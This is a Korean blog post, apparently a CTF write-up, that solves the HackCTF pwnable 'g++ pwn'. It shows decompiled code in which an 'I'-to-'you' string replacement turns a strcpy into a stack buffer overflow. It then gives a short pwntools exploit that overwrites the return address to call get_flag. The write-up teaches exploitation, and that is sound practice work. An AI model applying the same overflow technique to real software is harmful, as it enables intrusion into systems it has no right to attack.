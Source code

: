 ```yaml
---
layout: post
title:  "[hackCTF]g++ pwn"
date:   2020-02-18
categories: [hackCTF]
tags: [hackCTF]
permalink: '/hackCTF'
---
```


hackCTF pwnable 12번째 문제

![favicon](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/favicons.png?raw=true)

## ida - main
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vuln();
  return 0;
}
```

## ida - vuln
```cpp
int vuln()
{
  int v0; // ST08_4
  const char * v1; // eax
  char s; // [esp+1Ch] [ebp-3Ch]
  char v4; // [esp+3Ch] [ebp-1Ch]
  char v5; // [esp+40h] [ebp-18h]
  char v6; // [esp+47h] [ebp-11h]
  char v7; // [esp+48h] [ebp-10h]
  char v8; // [esp+4Fh] [ebp-9h]

  printf("Tell me something about yourself: ");
  fgets(&s, 32, edata);
  std::string::operator=(&input, &s);
  std::allocator<char>::allocator(&v6);
  std::string::string(&v5, "you", &v6);
  std::allocator<char>::allocator(&v8);
  std::string::string(&v7, "I", &v8);
  replace((std::string *)&v4, (std::string *)&input, (std::string *)&v7);
  std::string::operator=(&input, &v4, v0, &v5);
  std::string::~string((std::string *)&v4);
  std::string::~string((std::string *)&v7);
  std::allocator<char>::~allocator(&v8);
  std::string::~string((std::string *)&v5);
  std::allocator<char>::~allocator(&v6);
  v1 = (const char * )std::string::c_str((std::string *)&input);
  strcpy(&s, v1); // 취약점
  return printf("So, %s\n", &s);
}
```

## ida - get_flag
```cpp
int get_flag()
{
  return system("cat flag.txt"); // flag 출력
}
```
vuln은 문자열을 입력 받아 I를 you로 치환하여 s에 저장하는 함수이다. get_flag 함수를 실행시키려면 vuln의 ret을 덮어야 한다. ret을 덮기 위해서 0x40byte가 필요하지만 fgets 함수는 32byte밖에 덮을 수 없다. vuln의 특성을 이용하여 I를 you로 치환하면 fgets 함수에서는 I지만 strcpy 함수로 s에 저장할 때는 you로 치환되므로 0x40byte를 덮을 수 있다. 이를 참고하여 payload를 작성하면 된다.

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3011)

#p.recvuntil("yourself: ")

payload = "I"*21 + "A" + p32(0x08048F0D)

p.sendline(payload)

p.interactive()
```

recvuntil() 함수를 사용하면 error가 뜬다. 왜인지는 모르겠다.

## 결과
![1201](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/1201.JPG?raw=true)
